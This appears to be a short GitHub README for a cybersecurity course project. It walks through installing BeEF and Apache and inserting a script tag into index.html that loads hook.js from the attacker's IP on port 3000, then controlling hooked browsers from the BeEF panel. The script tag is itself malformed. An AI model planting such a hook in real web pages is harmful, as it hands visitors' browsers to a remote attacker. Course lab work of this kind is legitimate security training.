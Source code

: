 # KGM-Cyber-Project1
Cybersecurity course first project in KGM

### Install beef-xss using apt
* sudo apt update
* sudo apt install beef-xss

### Install apache2
* sudo apt install apache2

### Obtain IP address
* ipconfig

### Add script to index.html
* cd /var/www/html
* vim index.html
* within the body tag, insert <script>src="http://IP_ADDRESS:3000/hook.js"</script>

![index_file](index_file.png)


### Start beEF and run apache
* beef-xss
    * this will ask to set beEF password

* systemctl enable apache2
* systemctl start apache2
* systemctl status apache2

![apache_server](apache_server.png)  

* Go to IP_ADDRESS/ui/panel and login with beef as username and password as set during beef installation
* Online hooks should be enabled. Click on IP_ADDRESS and perform actions

![beef_screenshot](beef_screenshot.png)
